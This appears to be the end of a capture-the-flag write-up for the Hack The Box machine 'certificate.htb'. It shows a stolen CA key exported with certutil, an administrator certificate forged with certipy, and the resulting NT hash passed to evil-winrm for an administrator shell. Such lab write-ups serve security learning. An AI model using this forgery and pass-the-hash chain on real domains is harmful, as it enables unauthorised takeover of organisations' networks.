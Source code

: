 ```sh
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file ca.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.

Since we have the root, we can make up whatever we want, templates be damned.


```python
!certipy forge -ca-pfx ca.pfx -upn administrator@certificate.htb -subject 'CN=Administrator,CN=Users,DC=certificate,DC=htb' 
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Saved forged certificate and private key to 'administrator_forged.pfx'



```python
!certipy auth -pfx administrator_forged.pfx -dc-ip 10.129.151.165 
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@certificate.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6


```sh
 evil-winrm -i 10.129.190.240 -u administrator -H d804304519bf0143c14cbf1c024408c6
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
d1d2ed8c6253d4bedb2b21b3ba726253
```
And this is how I learned about why certificates are important.
